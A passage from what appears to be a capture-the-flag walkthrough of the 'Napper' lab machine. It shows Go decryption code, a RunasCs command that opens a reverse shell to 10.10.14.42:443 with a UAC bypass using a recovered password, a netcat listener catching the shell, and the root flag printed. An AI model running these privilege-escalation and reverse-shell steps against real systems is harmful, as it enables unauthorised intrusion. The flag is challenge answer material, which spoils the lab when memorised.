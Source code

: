 ```go
	seedPtr := flag.Int64("seed", 0, "Seed used to generate the encryption key")
	encryptedBase64Ptr := flag.String("data", "", "Base64-encoded encrypted data to decrypt")

	// Parse the flags
	flag.Parse()

	// Validate inputs
	if *seedPtr == 0 || *encryptedBase64Ptr == "" {
		fmt.Println("Usage: decrypt -seed=<seed> -data=\\"<encrypted data>\\"")
		return
	}

	// Decrypt the text using provided command-line arguments
	decryptedText, err := decrypt(*seedPtr, *encryptedBase64Ptr)
	if err != nil {
		fmt.Println("Decryption error:", err)
		return
	}

	fmt.Println("Decrypted text:", decryptedText)
}
```

Shell as the backup user.
```bash
PS C:\\Temp> .\\RunasCs.exe backup oVZevHytDdiQcUIrqXFLfvbZkJOpdLPwkwGkhSeZ cmd.exe -r 10.10.14.42:443 --bypass-uac
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.11.240] 57054
Microsoft Windows [Version 10.0.19045.3636]
(c) Microsoft Corporation. All rights reserved.

C:\\Windows\\system32>whoami
napper\\backup
```

Root flag: `7bb203661c30ecacbb90837d4ad46ea5`
```bash
C:\\Users\\Administrator\\Desktop>type root.txt
7bb203661c30ecacbb90837d4ad46ea5
```


## PWNED!!!
![Pasted image 20240714174749.png](/images/Pasted image 20240714174749.png){: .normal }